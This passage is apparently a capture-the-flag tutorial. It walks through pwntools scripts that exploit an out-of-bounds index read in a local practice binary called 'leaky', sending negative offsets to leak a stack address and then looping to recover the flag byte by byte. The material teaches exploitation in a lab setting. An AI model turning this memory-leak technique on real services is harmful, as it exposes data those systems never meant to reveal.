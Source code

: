 Let's leak one byte of the flag using pwntools.

```python
#!/usr/bin/env python
from pwn import *

io = process('leaky')

# "Give me an index and I'll tell you what's there!\n
io.recvline()

# Send offset -10
io.sendline('-10')

# Here you go\n
result = io.recvline()

print(b"Got: " + result)

io.interactive()
```

If we run the previous script, we get the following output:

```
[+] Starting local process './leaky': Done
Got: Okay, here you go: 0xffe947d8 S

[*] Switching to interactive mode
[*] Process './leaky' stopped with exit code 0
[*] Got EOF while reading in interactive
$
```

Notice the $ prompt which still awaits input from us to feed the process. This is due to the `io.interactive()` line at the end of the script.

We can encapsulate the previous sequence of interactions inside a function which we can loop.

```python
#!/usr/bin/env python
from pwn import *

def leak_char(offset):
    # "Give me an index and I'll tell you what's there!\n
    io.recvline()

    # Send offset
    io.sendline(str(offset))

    # Here you go\n
    result = io.recvline()

    # Parse the result
    leaked_char = result.split(b'go: ')[1].split(b' ')[1].split(b'\n')[0]
    return leaked_char

io = process('leaky')

flag = ''

for i in range(-10,0):
    flag += leak_char(i).decode("utf-8")

print("The flag is: " + flag)
io.close()
```
